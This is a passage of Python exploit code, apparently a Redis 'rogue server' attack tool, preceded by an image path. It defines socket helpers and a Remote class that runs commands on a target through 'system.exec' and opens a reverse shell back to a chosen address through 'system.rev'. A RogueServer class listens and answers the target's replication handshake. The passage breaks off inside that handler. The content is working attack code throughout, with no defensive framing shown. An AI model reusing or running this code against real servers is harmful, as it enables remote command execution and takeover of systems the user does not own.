 ```python
    """
    if type(msg) != bytes:
        msg = msg.encode()
    sock.send(msg)
    if verbose:
        if sys.version_info < (3, 0):
            msg = repr(msg)
        if len(msg) < 300:
            print("\033[1;32;40m[<-]\033[0m {}".format(msg))
        else:
            print("\033[1;32;40m[<-]\033[0m {}......{}".format(msg[:80], msg[-80:]))


def decode_shell_result(s):
    return "\n".join(s.split("\r\n")[1:-1])


class Remote:
    def __init__(self, rhost, rport):
        self._host = rhost
        self._port = rport
        self._sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        self._sock.connect((self._host, self._port))


    def send(self, msg):
        dout(self._sock, msg)

    def recv(self, cnt=65535):
        return din(self._sock, cnt)

    def do(self, cmd):
        self.send(mk_cmd(cmd))
        buf = self.recv()
        return buf

    def close(self):
        self._sock.close()

    def shell_cmd(self, cmd):
        self.send(mk_cmd_arr(['system.exec', "{}".format(cmd)]))
        buf = self.recv()
        return buf

    def reverse_shell(self, addr, port):
        self.send(mk_cmd("system.rev {} {}".format(addr, port)))


class RogueServer:
    def __init__(self, lhost, lport, remote, file):
        self._host = lhost
        self._port = lport
        self._remote = remote
        self._file = file
        self._sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        self._sock.bind(('0.0.0.0', self._port))
        self._sock.settimeout(15)
        self._sock.listen(10)

    def handle(self, data):
        resp = ""
        phase = 0
        if data.find("PING") > -1:
```